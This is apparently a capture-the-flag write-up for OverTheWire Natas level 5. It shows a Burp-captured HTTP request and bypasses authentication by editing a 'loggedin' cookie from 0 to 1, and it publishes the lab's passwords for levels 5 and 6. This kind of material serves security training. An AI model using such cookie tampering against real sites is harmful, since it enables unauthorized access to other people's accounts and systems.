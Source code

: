 ```yaml
---
layout: post
title: Overthewire Natas Level 5
subtitle: ... Write up
tags: [overthewire, natas, level5, overthewire-natas, writeup]
---
```


## Natas Level 5
* Username: natas5
* Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
* URL:      http://natas5.natas.labs.overthewire.org


**Step 1:** Let Login to the URL, you will see the message
> Access disallowed. You are not logged in

**Step 2:** Check Page Source and Robotics file as usual but I could not find anythings useful from those.

**Step 3:** Again, I think I need Burp Suite. Capture the GET response from Burp
```
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: __cfduid=dc69616187b4a387a963c02e8d931c8f61524815545; __utma=176859643.1702516967.1524815549.1524815549.1524836149.2; __utmz=176859643.1524815549.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); loggedin=0
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
**Step 4:** Look at the Cookie, _loggedin=0_. Ah ha, we are familiar to 1 and 0 as binary code. _loggedin=0_ is not login so what happen if it become 1. Change 0 to 1 and forward the request. <br>
Awesome!
```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```
Flag found
